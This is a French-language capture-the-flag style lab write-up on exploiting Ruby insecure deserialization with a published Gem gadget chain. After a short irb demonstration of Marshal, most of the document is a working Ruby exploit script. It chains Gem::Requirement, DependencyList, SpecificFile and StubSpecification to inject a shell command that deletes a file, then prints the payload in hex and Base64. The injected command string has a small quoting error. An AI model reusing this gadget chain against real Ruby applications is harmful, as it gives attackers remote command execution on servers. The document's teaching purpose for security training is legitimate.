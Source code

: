 # Ruby deserialization using a documented gadget chain
- Même principe que la déserialisation PHP, sauf que là on utilise le langage Ruby comme intermédiaire.<br/>
## Reconnaissance
- Je laisse tourner burpsuite en arrière-plan pendant que je me login avec les identifiants précisés dans l'énoncé.<br/></br>
<img src="https://media.discordapp.net/attachments/768928242467340328/770030149490966548/unknown.png"/><br/><br/>
- Je check l'historique des requêtes et je sélectionne l'index où le procédé du login a été sérialisé.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770031231060017192/unknown.png?width=1195&height=890"/><br/><br/>
## Développement gadget 
- Pour commencer, un peu de théorie. Les termes utilisés par Ruby pour désigner la sérialisation et la désérialisation sont marshalling et unmarshalling.
- La classe Marshal a les méthodes de classe «dump» et «load» qui peuvent être utilisées comme suit:
```ruby
$ irb
izjosve@ijzosve:~$ irb

irb(main):001:1* class Person

irb(main):002:1*   attr_accessor :name

irb(main):003:0> end
=> nil

irb(main):004:0> p = Person.new

irb(main):005:0> p.name = "ijzosve"

irb(main):006:0> p
=> #<Person:0x000055b382dc13e8 @name="ijzosve">

irb(main):007:0> Marshal.dump(p)
=> "\x04\bo:\vPerson\x06:\n@nameI\"\fijzosve\x06:\x06ET"

irb(main):008:0> Marshal.load("\x04\bo:\vPerson\x06:\n@nameI\"\fijzosve\x06:\x06ET")
=> #<Person:0x000055b383081e98 @name="ijzosve">
```
<br/><br/>
- Pour le script qui génère et vérifie la désérialisation de la gadget chain j'ai utilisé cette documentation https://www.elttam.com/blog/ruby-deserialization/#content.<br/><br/>
```ruby
#!/usr/bin/env ruby

class Gem::StubSpecification
  def initialize; end
end


stub_specification = Gem::StubSpecification.new
stub_specification.instance_variable_set(:@loaded_from, "|rm "home/carlos/morale.txt")

puts "STEP n"
stub_specification.name rescue nil
puts


class Gem::Source::SpecificFile
  def initialize; end
end

specific_file = Gem::Source::SpecificFile.new
specific_file.instance_variable_set(:@spec, stub_specification)

other_specific_file = Gem::Source::SpecificFile.new

puts "STEP n-1"
specific_file <=> other_specific_file rescue nil
puts


$dependency_list= Gem::DependencyList.new
$dependency_list.instance_variable_set(:@specs, [specific_file, other_specific_file])

puts "STEP n-2"
$dependency_list.each{} rescue nil
puts


class Gem::Requirement
  def marshal_dump
    [$dependency_list]
  end
end

payload = Marshal.dump(Gem::Requirement.new)

puts "STEP n-3"
Marshal.load(payload) rescue nil
puts


puts "VALIDATION (in fresh ruby process):"
IO.popen("ruby -e 'Marshal.load(STDIN.read) rescue nil'", "r+") do |pipe|
  pipe.print payload
  pipe.close_write
  puts pipe.gets
  puts
end

puts "Payload (hex):"
puts payload.unpack('H*')[0]
puts


require "base64"
puts "Payload (Base64 encoded):"
puts Base64.encode64(payload)
```
